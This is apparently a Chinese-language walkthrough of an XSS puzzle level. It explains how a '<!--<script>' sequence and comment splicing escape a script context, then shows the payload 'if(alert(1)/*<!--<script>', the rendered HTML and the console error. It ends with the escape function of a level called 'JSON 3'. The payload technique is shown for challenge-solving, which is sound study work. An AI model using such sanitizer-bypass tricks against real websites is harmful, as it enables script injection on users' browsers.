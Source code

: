 下面有一个`*/`，可以利用这个拼接多行注释

`<!--<script>`可以无视`</script>`，把这个标签后的代码全部当作js执行，

`<!--<script>`需要有`-->`闭合

Payload

```
if(alert(1)/*<!--<script>
```

Output

```
<script>var url = "if(alert(1)\/*<!--<script>"; // We'll use this later </script>

  <!-- for debugging -->
  URL: if(alert(1)/*&#60;!--&#60;script&#62;

<!-- then suddenly -->
<script>
  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);
  else new Image().src = url;
</script>

即
<script>var url = "if(alert(1)\/*<!--<script>"; // We'll use this later </script>

  <!-- for debugging -->
  URL: if(alert(1).test(url)) console.log("Bad url: " + url);
  else new Image().src = url;
</script>
```



Console output

```
Error: Uncaught TypeError: Cannot read property 'test' of undefined
```



## JSON 3

```javascript
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```
